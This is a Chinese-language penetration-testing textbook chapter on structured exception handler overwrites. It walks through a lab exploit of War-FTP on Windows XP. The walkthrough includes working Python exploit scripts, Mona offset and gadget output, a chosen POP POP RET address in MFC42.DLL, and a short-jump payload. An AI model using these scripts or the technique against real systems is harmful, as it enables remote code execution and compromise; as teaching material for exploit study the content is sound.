## 第十八章. 结构化异常处理程序覆盖

当发生错误导致程序崩溃时，就会引发异常。访问无效的内存位置是程序可能遇到的一种异常类型。

Windows 系统使用一种名为*结构化异常处理程序（SEH）*的方法来处理程序发生的异常。SEH 类似于 Java 中的 try/catch 块：代码会执行，如果出现问题，函数停止执行，并将控制权传递给 SEH。

每个函数都可以有自己的 SEH 注册条目。一个*SEH 注册记录*长度为 8 个字节，由指向下一个 SEH 记录的指针（NSEH）和异常处理程序的内存地址组成，如图 18-1 所示。所有 SEH 条目的列表即为*SEH 链*。

图 18-1. SEH 结构

在许多情况下，应用程序仅使用操作系统的 SEH 条目来处理异常。你可能已经熟悉这种用法；它会弹出一个消息框，内容类似于“应用程序 X 遇到问题，需要关闭”。然而，程序也可以指定自定义 SEH 条目。当遇到异常时，执行会传递给 SEH 链，寻找能够处理该异常的条目。在 Immunity Debugger 中查看应用程序的 SEH 链，请前往**视图** ▸ **SEH 链**，如图 18-2 所示。

图 18-2. 查看 SEH 链

## SEH 覆盖漏洞

现在让我们看看如何利用 SEH 条目来控制程序。在通过第十七章的 War-FTP 缓冲区溢出示例时，一个自然的问题是，为什么我们只能为我们的 shellcode 使用 607 字节？为什么不能编写一个更长的攻击字符串，创建一个任意长度的 payload？

我们将通过用来崩溃 War-FTP 的漏洞开始探索 SEH 覆盖。与在第十七章示例中使用的 1,100 字节漏洞字符串不同，让我们尝试使用 1,150 字节的 *A* 字符串来崩溃 War-FTP，如示例 18-1 所示。

示例 18-1. 使用 1,150 个 A 的 War-FTP 漏洞

```
root@kali:~# cat ftpexploit2
#!/usr/bin/python
import socket
buffer = "A" * 1150
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.close()
```

如图 18-3 所示，程序如预期般崩溃，但这次我们的访问违规异常与第十七章中的略有不同。EIP 指向`0x77C3F973`，这是*MSVCRT.dll*中的一个有效指令。与覆盖保存的返回指针并通过 EIP 控制使程序崩溃不同，War-FTP 此次崩溃时尝试写入内存地址`0x00B00000`。

注意 CPU 面板中的指令`0x77C3F973`是`MOV BYTE PTR` `DS:[EAX], 0`。基本上，程序正在尝试写入`EAX`值对应的内存位置。在 Immunity Debugger 的右上角的寄存器面板中，我们看到`EAX`包含值`00B00000`。我们的攻击字符串似乎破坏了`EAX`，因为程序现在正尝试写入一个无法写入的内存位置。在没有 EIP 控制的情况下，这次崩溃还有意义吗？非常长的攻击字符串常常会因为试图将数据写入栈的末尾而引发异常。

在我们放弃这个漏洞并继续之前，先看看 SEH 链。如图 18-4 所示，结构化异常处理程序（SEH）已被*A*覆盖。回想一下，在崩溃事件中，执行会转交给 SEH。尽管我们当时没有直接控制 EIP，但也许控制 SEH 可以让我们仍然劫持执行。

图 18-3。程序在没有 EIP 控制的情况下崩溃。图 18-4.SEH 被覆盖

就像我们在上一章中使用 Mona 创建一个循环模式来查看哪个四个字节覆盖了保存的返回指针一样，我们将使用命令`!mona pattern_create 1150`在 Immunity Debugger 中找到覆盖 SEH 的四个*A*，如图 18-5 所示。

图 18-5. 使用 Mona 生成循环模式

将生成的模式从*C:\logs\war-ftpd\pattern.txt*复制到利用代码中，替换掉 1,150 个*A*，如示例 18-2 所示。

示例 18-2. 使用模式生成精确定位攻击字符串中的 SEH 覆盖

```
  root@kali:~# cat ftpexploit2
  #!/usr/bin/python
  import socket
❶ buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2
  Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8
  Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4
  Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0
  Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6
  Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2
  Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8
  Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au5Au6
  Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2
  Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8
  Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4
  Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0
  Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6
  Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2
  Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2B"
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  connect=s.connect(('192.168.20.10',21))
  response = s.recv(1024)
  print response
  s.send('USER ' + buffer  + '\r\n')
  response = s.recv(1024)
  print response
  s.close()
```

在这里，我们生成了一个 1,150 字符的模式，并在 ❶ 处替换了 *A* 字符串。接下来，重新启动 War-FTP，在 Immunity Debugger 中运行该漏洞利用程序。正如图 18-6 所示，SEH 被 `41317441` 覆盖。

图 18-6. SEH 被 Mona 的模式覆盖

现在使用 `!mona findmsp` 来查找在我们 1,150 字符的攻击字符串中，SEH 条目被覆盖的位置，如图 18-7 所示。

图 18-7. 在循环模式中找到 SEH 覆盖

查看位于 *C:\logs\war-ftpd\findmsp.txt* 的日志输出（部分内容如下），我们发现 NSEH 条目被覆盖在攻击字符串的第 569 字节。回顾图 18-1，SEH 链条目由八个字节组成（NSEH 条目后跟 SEH 指针）。因此，我们的 SEH 覆盖发生在攻击字符串的第 573 字节（NSEH 后的四个字节）。

```
[+] Examining SEH chain
    SEH record (nseh field) at 0x00affd94 overwritten with normal pattern : 0x41317441 (offset 569), followed by 577 bytes of cyclic data
```

## 将控制权传递给 SEH

回到 Windows XP 目标系统，Immunity Debugger 屏幕底部显示了访问冲突，并指出你可以按 shift-F7/F8/F9 将异常传递给程序。在这种情况下，程序将尝试执行内存地址 `41317441`，该地址是覆盖了 SEH 的字符串。使用 shift-F9 继续运行程序，直到发生下一个错误。如图 18-8 所示，程序在尝试访问内存地址 `41317441` 时遇到访问冲突。与之前的例子一样，我们将把一个有效的内存地址放置在 `41317441` 位置，以成功劫持执行。

还请注意在图 18-8 中，当执行传递到 SEH 时，我们的许多寄存器已经被清零。这可能使得跳转到攻击者控制的寄存器变得更加困难。

图 18-8. 执行被传递到被覆盖的 SEH

在未被清零的寄存器中，似乎没有任何一个指向我们攻击字符串的部分。显然，SEH 中简单的 `JMP ESP` 不会将执行重定向到攻击者控制的内存。我们在寻找可利用性时，形势依然相当严峻。

## 在内存中查找攻击字符串

当然，在这种情况下，我们已经有了一个有效的返回指针覆盖漏洞利用程序。然而，一些程序仅对 SEH 覆盖漏洞存在漏洞，因此开发利用这些问题的方法至关重要。幸运的是，SEH 覆盖漏洞的攻击者控制内存地址即将到来。如图 18-9 所示，在 Immunity Debugger 中突出显示 ESP 寄存器，右键单击并选择**在栈中跟踪**。

图 18-9. 跟随栈上的 ESP

尽管 ESP 寄存器的内容并没有指向我们的循环模式的任何部分，但从 ESP 开始向下两个步骤，在 ESP+8 处，我们看到内存地址`00AFD94`指向了我们内存中的循环模式，如图 18-10 所示。如果我们能够找到一种方法移除栈中的两个元素，然后执行该内存地址的内容，我们就可以用 shellcode 代替模式来执行代码。

图 18-10. 比 ESP 高八字节的循环模式

NSEH 的位置是`00AFFD94`，如 Mona 的`findmsp`命令的输出所示。我们可以通过在栈窗格中右键单击`00AFFD94`并选择**在栈中跟踪**来验证这一点，如图 18-11 所示。

图 18-11. 指向下一个 SEH 记录的指针中的循环模式

如前所述，SEH 条目是一个八字节长的链表，由指向链中下一个 SEH 记录的指针和栈上处理程序的内存地址组成。如果我们能够将 ESP+8 加载到 EIP 中，就可以执行一些 shellcode。不幸的是，在遇到 SEH 条目之前，看起来我们只有四个字节可供使用，但让我们一个问题一个问题地处理。我们需要找到一种可行的方式来获取我们的 shellcode，然后再返回去让我们的 shellcode 适应可用的空间。

在继续之前，让我们验证一下我们的偏移量是否正确，如示例 18-3 所示。

示例 18-3. 验证覆盖偏移量

```
#!/usr/bin/python
import socket
buffer = "A" * 569 + "B" * 4 + "C" * 4 + "D" * 573 ❶
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.close()
```

编辑你的漏洞利用程序，发送 569 个*A*，接着是 4 个*B*，再接着是 4 个*C*，最后以 573 个*D*结束，形成 1,150 字节的攻击字符串，位置在❶。重新启动 War-FTP 并再次运行漏洞利用程序。我们在图 18-12 中看到，SEH 被我们的 4 个*C*覆盖。

Figure 18-12. SEH 被四个 C 字符覆盖。

如果我们再次按下 shift-F9 将异常处理程序传递给崩溃的程序，当访问内存地址 `43434343` 时，War-FTP 第二次崩溃，出现我们的 *C* 字符。现在跟踪栈中的 ESP 寄存器。如图 Figure 18-13 所示，ESP+8 指向一个内存地址，该地址首先填充了四个 *B* 字符，然后是四个 *C* 字符，接着是 *D* 字符。

Figure 18-13. ESP+8 是攻击者控制的。

我们的偏移量是正确的。现在，需要找到一种方法将执行重定向到 ESP+8。遗憾的是，这次简单的 `JMP ESP` 无法实现。

## POP POP RET

我们需要一条指令，或者一系列指令，允许我们将栈向下移动八个字节，然后执行位于 ESP+8 的内存地址内容。为了弄清楚需要的汇编指令，我们必须考虑栈是如何工作的。

栈是一个后进先出（LIFO）的结构。常用的比喻是自助餐厅里的托盘堆叠概念。餐厅员工最后放上堆栈的托盘是餐客首先拿到的托盘。将托盘加入栈和顾客拿到托盘的汇编命令分别是 `PUSH` 和 `POP`。

回想一下，ESP 指向当前栈帧的顶部（最低内存地址）。如果我们使用 `POP` 指令从栈中弹出一个条目（四个字节），ESP 会指向 ESP+4。因此，如果我们连续执行两个 `POP` 指令，ESP 会指向 ESP+8，这正是我们想要的。

最后，为了将我们的执行重定向到攻击者控制的字符串，我们需要将 ESP+8 的值（现在在执行了两个 `POP` 指令后位于 ESP 中）加载到 EIP 中（即下一个将被执行的内存地址）。幸运的是，有一条指令可以做到这一点，即 `RET` 指令。根据设计，`RET` 会将 ESP 寄存器中的内容加载到 EIP 中，然后执行这些内容。

如果我们能够找到这三条指令，`POP` *`<某个寄存器>`*、`POP` *`<某个寄存器>`*、`RET`（通常被漏洞开发者缩写为 `POP POP RET`），我们应该能够通过覆盖 SEH 来重定向程序的执行，将 SEH 替换为第一个 `POP` 指令的内存地址。然后，ESP 的内容将被弹入指令所指定的寄存器中。我们并不特别关心哪个寄存器获得了被弹出的数据，只要它不是 ESP 本身即可。我们唯一关心的是将栈中的内容逐步弹出，直到到达 ESP+8。

接下来，执行第二个 `POP` 指令。此时，ESP 指向原始的 ESP+8。然后，执行 `RET` 指令，ESP（在执行 SEH 时为 ESP+8）被加载到 EIP 中。回忆前一节，ESP+8 存储了一个内存地址，该地址指向我们攻击者控制的字符串的第 569 字节。

### 注意

与 `JMP ESP` 一样，找到 `POP POP RET` 指令并不是硬性要求。逻辑等效的指令，如将 ESP 加八个字节后紧接着一个 `RET` 指令，或者其他类似的指令，也同样有效。

尽管这个技术稍微复杂一些，但它与我们在 第十七章完成的保存返回指针缓冲区溢出练习类似。我们正在劫持程序的执行流并将其重定向到我们的 Shellcode。现在，我们需要在 War-FTP 或其可执行模块中找到一个 `POP POP RET` 指令实例。

## SafeSEH

由于 SEH 覆盖攻击已经变得非常普遍，微软提出了阻止这些攻击生效的方法。一个这样的例子就是 SafeSEH。使用 SafeSEH 编译的程序会记录将用于结构化异常处理的内存位置，这意味着尝试将执行重定向到包含 `POP POP RET` 指令的内存位置将无法通过 SafeSEH 检查。

需要意识到的是，即使 Windows XP SP2 及以后版本的 DLL 使用 SafeSEH 编译，第三方软件也不必实现这种缓解技术。如果 War-FTP 或其任何自定义 DLL 没有使用 SafeSEH，我们可能就不需要处理这个检查。

当我们使用 `!mona seh` 命令时，Mona 会在查找 `POP POP RET` 指令的过程中确定哪些模块没有使用 SafeSEH，如 图 18-14 所示。

图 18-14. 在 Mona 中运行 SEH 命令

`!mona seh` 的结果会写入 *C:\logs\war-ftpd\seh.txt*，部分内容如图所示。

```
0x5f401440 : pop edi # pop ebx # ret 0x04 | asciiprint,ascii {PAGE_EXECUTE_
READ} [MFC42.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: False,
v4.2.6256 (C:\Documents and Settings\georgia\Desktop\MFC42.DLL)
0x5f4021bf : pop ebx # pop ebp # ret 0x04 |  {PAGE_EXECUTE_READ} [MFC42.DLL]
ASLR: False, Rebase: False, SafeSEH: False, OS: False, v4.2.6256 (C:\Documents
and Settings\georgia\Desktop\MFC42.DLL)
0x5f4580ca : pop ebx # pop ebp # ret 0x04 |  {PAGE_EXECUTE_READ} [MFC42.DLL]
ASLR: False, Rebase: False, SafeSEH: False, OS: False, v4.2.6256 (C:\Documents
and Settings\georgia\Desktop\MFC42.DLL)
0x004012f2 : pop edi # pop esi # ret 0x04 | startnull {PAGE_EXECUTE_READ}
[war-ftpd.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.6.5.0
(C:\Documents and Settings\georgia\Desktop\war-ftpd.exe)
```

从输出中可以看到，唯一没有 SafeSEH 的模块是 War-FTP 可执行文件本身和一个名为 *MFC42.dll* 的 War-FTP 附带 DLL。我们需要从 Mona 的输出中选择一个 `POP POP RET`（或其逻辑等效）实例，该实例避免了 第十七章中讨论的四个坏字符（\x00, \x40, \x0a, \x0d）。(要让 Mona 在搜索过程中自动排除包含坏字符的条目，可以输入 **`!mona seh -cpb "\x00\x40\x0a\x0d"`**。一个这样的地址是 `5F4580CA`。指令为 `POP` `EBX`，`POP EBP`，`RET`。再次强调，我们不在乎这些指令存储在哪里，只要我们能从栈上弹出两个条目。如果我们用地址 `5F4580CA` 覆盖 SEH，这些指令就会被执行，我们的执行流将被重定向到攻击字符串。

在继续之前，按照图 18-15 所示，在 `5F4580CA` 处设置断点，命令为 `bp 0x5F4580CA`。

图 18-15. POP POP RET 处的断点

将之前 exploit 中的四个 *C* 替换为 `POP POP RET` 内存地址的小端格式，正如在示例 18-4 中所示。

示例 18-4. 使用 `POP POP RET` 替换 SEH 覆盖

```
#!/usr/bin/python
import socket
buffer = "A" * 569 + "B" * 4 + "\xCA\x80\x45\x5F" + "D" * 573
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.close()
```

现在重新运行 exploit。正如在图 18-16 中看到的，程序再次崩溃，正如预期的那样，SEH 被 `5F4580CA` 覆盖。

图 18-16. SEH 被 `POP POP RET` 地址覆盖

按下 Shift-F9 让程序跳过已覆盖的异常处理程序。正如预期的那样，我们击中了断点，正如在图 18-17 中所示。

图 18-17. 我们击中断点。

CPU 面板（左上角）显示接下来要执行的指令是 `POP POP RET`。按 **F7** 键逐步执行指令，并观察堆栈（右下角）发生了什么变化。你会看到 ESP 在执行 `POP` 指令时，指针向更高的地址移动。正如在图 18-18 中所示，当我们执行 `RET` 指令时，最终会跳转到我们的攻击字符串，指向 NSEH 记录的指针，目前该指针填充了四个 *B*。

图 18-18. 执行已重定向到你的攻击字符串。

我们已经解决了第一个问题：我们已将程序的执行重定向到我们的攻击字符串。不幸的是，正如在图 18-18 中看到的那样，在我们遇到 SEH 覆盖地址 `5F4580CA` 之前，我们只有四个可用的字节。SEH 地址后面有一长串 *D*，但目前我们只能使用四个字节。只有四个字节的 shellcode 我们无法做太多事情。

## 使用短跳转

我们需要以某种方式绕过返回地址，并跳转到我们的一长串 *D* 字符中，这里有足够的空间放置我们的最终 shellcode。我们可以使用 `short jump` 汇编指令将 EIP 移动一个短距离。这种方法非常适合我们的目的，因为我们需要跳过 SEH 覆盖的四个字节。

短跳转的十六进制表示为`\xEB` *`<跳转长度>`*。通过将短跳转指令`\xEB` *`<跳转长度>`* 填充两个字节，填满在 SEH 覆盖前的所有四个字节，我们可以跳过填充字节和 SEH 覆盖，跳过六个字节。

编辑攻击字符串，加入短跳转，如示例 18-5 所示。

示例 18-5. 添加短跳转

```
#!/usr/bin/python
import socket
buffer = "A" * 569 + "\xEB\x06" + "B" * 2 + "\xCA\x80\x45\x5F" + "D" * 570
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.close()
```

